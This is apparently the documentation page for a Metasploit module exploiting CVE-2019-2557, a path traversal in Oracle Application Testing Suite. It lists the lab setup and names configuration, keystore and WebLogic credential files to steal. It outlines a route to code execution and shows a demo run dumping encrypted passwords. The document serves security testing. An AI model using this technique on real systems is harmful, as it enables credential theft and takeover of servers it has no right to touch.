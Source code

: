 ## Background

Oracle Application Testing Suite (OATS) is a comprehensive, integrated testing solution for web applications, web services, packaged Oracle applications, and Oracle databases. OATS is part of an application deployed in the WebLogic service on port 8088, which also includes these tools: Administrator, OpenScript, Oracle Load Testing, and Oracle Test Manager.

In the Load Testing component, a vulnerability was discovered by Steven Seeley (@mr_me) of Source Incite in the DownloadServlet class. According to the Source Incite advisory, the issue results from the lack of proper validation of a user-supplied string before using it to read a file. An attacker can leverage this vulnerability to execute code in the context of SYSTEM. Note that authentication is required.

This vulnerability is also known as CVE-2019-2557.


## Vulnerable Application

The following is the exact setup I used to test and analyze the vulnerability:

- Windows Server 2008 R2 x64 (other Windows systems are also supported)
  - .Net Framework 3.5 enabled (from add/remove features)
  - IE ESC (from Server Manager) disabled
  - 8GB of RAM (at least more than 4GB will be used to run OATS)
  - Duel-Core processor
- oats-win64-full-13.3.0.1.262.zip (x86 did not work for me)
- Jdk-7u21-windows-x64.exe
- OracleXE112_Win64.zip (Newer version 18c did not work well for me)
- Firefox (I had to install this because IE on Win2k8 is completely outdated)
- Adobe Flash installed (IE ESC needs to be disabled in order to install this)

For installation instructions, please refer to the Oracle Application Testing Suite Installation Guide.

## Notes

By default, your starting traversal path is:

```
C:\OracleATS\config\Report Templates\
```

There are some interesting files you can steal from this directory, such as:

* oats-config.xml
* oats-database-config.xml
* oats-keystore

Code execution is possible leveraging from this vulnerability if you target these files:

* C:\OracleATS\oats\servers\AdminServer\security\SerializedSystemIni.dat
* C:\OracleATS\oats\servers\AdminServer\security\boot.properties

After that, you can find a third party script to decrypt the credentials, and then you could
gain code execution from the administrator console.


## Credit

Special thanks to Steven Seeley to assist on the development of the Metasploit module.

## Demo

```
msf5 auxiliary(gather/oats_downloadservlet_traversal) > run
[*] Running module against 172.16.249.143

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE properties SYSTEM "http://java.sun.com/dtd/properties.dtd">
<properties>
<entry key="oracle.oats.cluster.agent.username">oats-agent</entry>
<entry key="oracle.oats.security.keystore.info">eYAdfLaDkdBlUmflYhpg+CHGeXc=</entry>
<entry key="oracle.oats.cluster.username">oats</entry>
<entry key="oracle.oats.cluster.agent.password">{AES}WNdIPXpoeoZzyDNuJPm0wU4R3YKc1SUR2k5+TbQfzIQ=</entry>
<entry key="oracle.oats.admin.username">oats</entry>
<entry key="oracle.oats.http.url">http://localhost:8088</entry>
<entry key="oracle.oats.config.version">9.1.0</entry>
<entry key="oracle.oats.admin.password">{AES}NHrwlbPc7Arlb7puj+UlzAAXB/dUEbv3bdwNnee1/sc=</entry>
<entry key="oracle.oats.cluster.password">{AES}WMTjMmLChdB9CTSrnyJ33113u0ml0juuGZQCWPODJTk=</entry>
<entry key="oracle.oats.admin.url">t3://localhost:8088</entry>
<entry key="oracle.oats.tmp.dir">/tmp</entry>
<entry key="oracle.oats.cluster.url">t3://localhost:8088</entry>
</properties>

[*] Auxiliary module execution completed
msf5 auxiliary(gather/oats_downloadservlet_traversal) > 
```

